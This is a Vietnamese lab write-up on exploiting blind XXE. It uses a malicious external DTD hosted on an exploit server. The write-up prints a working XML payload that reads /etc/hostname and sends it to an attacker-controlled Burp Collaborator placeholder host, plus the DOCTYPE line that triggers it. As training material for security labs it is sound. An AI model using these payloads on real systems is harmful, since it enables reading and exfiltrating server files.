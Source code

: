 ## Exploiting blind XXE to exfiltrate data using a malicious external DTD

> Lần này Lab bảo chúng ta hãy tới Exploit Server để tấn công tới server có lỗi xxe

Đây là cách khai thác lỗ hổng XXE sử dụng 1 DTD để đầu độc hệ thống và trả ra nội dung file passwd.

![](/imgs/XXE/20.png?raw=true)

```XML
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Có nghĩa là biến file sẽ được gán bằng giá trị của hostname

Còn entity eval sẽ gửi đến địa chỉ của Burp Collaborator với format ***domain/?x=<nội_dung_file>*** thông qua địa chỉ file dtd chúng ta tạo trên exploit server

![](/imgs/XXE/21.png?raw=true)

Trở về request checkStock và thực thi param entity.

```XML
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "địa_chỉ_exploit_server"> %xxe;]>
```

![](/imgs/XXE/22.png?raw=true)

Chúng ta sẽ nhận được 1 số request gửi đến Burp Collaborator

Request Type HTTP có format đúng như chúng ta đã chỉ định => Hostname = giá trị sau x=

![](/imgs/XXE/22.png?raw=true)

Submit giá trị của x là solve lab.

![](/imgs/XXE/22.png?raw=true)

### Tài Liệu Tham Khảo
- Một số CheatSheet: [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)